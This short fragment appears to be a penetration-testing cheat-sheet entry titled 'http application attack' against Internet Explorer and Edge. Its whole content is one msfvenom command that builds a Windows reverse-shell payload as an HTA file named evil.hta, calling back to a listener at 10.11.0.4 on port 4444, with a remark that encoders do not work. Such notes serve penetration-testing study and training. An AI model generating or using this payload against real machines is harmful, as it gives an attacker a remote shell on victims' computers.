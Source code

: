 ### http application attack(works against Internet Explorer and to some extent Microsoft Edge)
```
1. msfvenom -p windows/shell_reverse_tcp(windows/x64/shell_reverse_tcp) LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o evil.hta(encoders doesnt work)
```
